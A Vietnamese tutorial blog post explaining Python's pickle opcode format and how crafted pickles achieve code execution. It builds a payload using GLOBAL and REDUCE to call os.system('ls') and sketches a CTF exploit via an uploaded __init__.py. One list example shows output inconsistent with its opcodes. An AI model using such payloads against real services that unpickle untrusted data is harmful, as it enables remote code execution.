

# Cách mà pickle deserialize dữ liệu

## Bối cảnh của bài viết này

Mình luôn thắc mắc về cách hoạt động của pickle từ khi biết về sự tồn tại của nó. Tuy nhiên mãi cho tới khi bị ăn hành bởi một bài [CTF](../../2022/hitconCTF_2022/S0undCl0ud/) thì mình mới đi tìm hiểu 😁.

## Serialize và deserialize

Todo 😉

## Pickle format
Quá trình serialize dữ liệu (số nguyên, list, dictionary, ...) của pickle sẽ cho ra một dãy byte. Nên khi deserialize ta sẽ xem xét một dãy byte. Các byte liên quan khi gộp lại sẽ thành opcode, một opcode sẽ thực hiện một thao tác. Như vậy ta sẽ có dãy các opcode. Dãy opcode đó khi cần deserialize thì sau khi đi qua một machine gọi là pickle machine (PM) sẽ xây dựng được thành một object Python phức tạp.

PM có hai trường dữ liệu, `stack` và `memo`:
- `memo`: nơi giúp lưu lại một số kết quả để tối ưu cho quá trình.
- `stack`: đúng như tên gọi của nó, nó sử dụng cấu trúc dữ liệu stack. Ta sẽ tập trung vào đây hơn là `memo`.

Một vài opcode sẽ có tác dụng đẩy object vào `stack` hoặc lấy object ra khỏi `stack`. Cho tới khi gặp opcode cho lệnh `STOP` được thực thi. Những gì còn lại trong `stack` sau khi thực thi lệnh `STOP` sẽ là output của quá trình deserialize.

## Quá trình deserialize
Opcode sẽ gồm hai phần, phần đầu là một byte thể hiện loại thao tác, heo sau đó là các argument. Mỗi argument kết thúc bằng ký tự `\n` (new line). Dấu chấm `.` sẽ thể hiện cho `STOP`.

Ví dụ: để deserialize được ra string `'abcdefgh2808'`. Ta có byte thể hiện loại thao tác là `S` (thể hiện đẩy vào `stack` một string) và argument là `'abcdefgh2808'`. Và kết thúc opcode bằng `\n` rồi kết thúc quá trình deserialize bằng dấu chấm `.`. Ta được: `S'abcdefgh2808'\n.`

```
>>> import pickle
>>> pickle.loads("S'abcdefgh2808'\n.")
'abcdefgh2808'
```

Trong `stack` sẽ có như sau:
```
abcdefgh2808
```

:v Ví dụ này hơi đơn giản nên `stack` cũng đơn giản nốt. Nó bỏ string kia vô `stack` rồi gặp `.` nên `STOP` luôn. Ta sẽ thử ví dụ sau cho dễ hiểu hơn.

Ví dụ: Để xây dựng list `[8, 2, 1]`, sẽ có ký tự `(` để thể hiện bắt đầu list và `l` để thể hiện kết thúc list. Ta sẽ có chuỗi opcode như sau:

```
>>> pickle.loads("(I1\nI2\nI3\nl.")
[8, 2, 1]
```

Khi xét đoạn `(I1\nI2\nI3\n`, `stack` của ta như sau:
```
1
2
8
(
```

Sau đó khi gặp ký tự `l` PM sẽ lấy hết những thứ sau `(` bỏ vào list và ta được `stack` như sau:
```
[8, 2, 1]
```

Dấu `(` cũng bị đẩy ra khỏi stack.

Nested list cũng được xây dựng tương tự như thế: 
```
>>> pickle.loads(b"(S'abcdefgh2808'\n(I1\nI2\nS'3'\nll.")
['abcdefgh2808', [1, 2, '3']]
```

Ngoài ra, pickle cũng có nhiều ký tự đại diện cho các [lệnh](https://github.com/python/cpython/blob/main/Lib/pickle.py) khác:



Mỗi ký tự sẽ có một tên khác: Ví dụ `(` có tên là `MARK`.

## Pickletools
Trong Python có module `pickletools` với hàm `genops` sẽ giúp con người đọc opcode dễ hơn.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b"cos\nsystem\nS'ls'\n\x85R.")
>>>
>>> for x in opcode:
...     print(x[0].name, x[1])
...
GLOBAL os system
STRING ls
TUPLE1 None
REDUCE None
STOP None
```

Đôi lúc ta sẽ bắt gặp lập trình viên sử dụng `pickletools` để filter trước khi deserialize bằng cách giới hạn các lệnh và nội dung của lệnh.

## Vấn đề của pickle
Khi deserialize nó thực thi một số lệnh, và trong các lệnh đó có một vài lệnh không an toàn để sử dụng. Ví dụ như:
```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STACK_GLOBAL   = b'\x93'  # same as GLOBAL but using names on the stacks
TUPLE1         = b'\x85'  # build 1-tuple from stack top
```

Cụ thể:
- `REDUCE` được dùng để gọi callable. Callable là những gì có thể được gọi, điển hình là hàm. Chú ý là cả callable và argument tuple của callable đó đều được lấy từ `stack`. Do đó attacker có thể sử dụng nó để thực thi code. Ở ví dụ phía dưới, mình sẽ lấy callable là `os.system` và tuple là `('ls',)`. Thì khi gọi được callable ta sẽ thực thi được lệnh `ls` trên shell.
- `GLOBAL` và `STACK_GLOBAL` được dùng để gọi `self.find_class()` có tác dụng tìm thuộc tính của một object và trả về nó. Ta có thể lợi dụng nó để tìm thuộc tính thành viên là một hàm để hỗ trợ cho `REDUCE`.

    ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0] # Là getattr(sys.modules[module], name) nhưng có thêm vài tính năng khác
        else:
            return getattr(sys.modules[module], name)
    ```

    Ta thấy rằng `find_class(module, name)` sẽ import một module rồi trả về `getattr(sys.modules[module], name)`. Ta có thể sử dụng nó để `import os` rồi lấy hàm `system` để thực hiện RCE. `module` sẽ là `os` và `name` sẽ là `system`.

    ```
    >>> import pickle                                                                                                       
    >>> import sys                                                                                                          
    >>>                                                                                                                     
    >>> __import__('os', level=0)                                                                                           
    <module 'os' from '/usr/lib/python3.8/os.py'>                                                                           
    >>> getattr(sys.modules['os'], 'system')                                                                                
    <built-in function system> 
    >>>                                                                                             
    >>> pickle.loads(b"cos\nsystem\n.")    # ở đây sử dụng GLOBAL để demo, có thể sử dụng STACK_GLOBAL cũng được, nhưng sẽ cần thay đổi byte 
    <built-in function system>
    ```

    `system` chính là callable mà ta hướng tới.
- Ta đã có callable rồi, bây giờ ta cần argument tuple nữa. Ta sẽ dùng `\x85` để tạo tuple `('ls',)` như sau:
    ```
    >>> pickle.loads(b"S'ls'\n\x85.")                                                                                       
    ('ls',)
    ```

- Kết hợp mọi thứ lại ta có:
    ```
    >>> pickle.loads(b"cos\nsystem\nS'ls'\n\x85R.") 
    bin   dev  home  ...
    ```

Vậy là ta đã thực thi được code, là điều mà mọi hacker đều muốn 😁

Ngoài ra, mình cũng từng gặp một concept exploit ([bài phân tích ở đây nè](../../2022/hitconCTF_2022/S0undCl0ud/) 😆) như sau:
- Upload file `__init__.py` vào một thư mục.
- Sau đó lợi dụng `STACK_GLOBAL` hoặc `GLOBAL` để `__import__()` thư mục chứa file `__init__.py` vào thế là thực thi được code. 🤯

## Tham khảo
- https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/
- https://github.com/python/cpython/blob/main/Lib/pickle.py
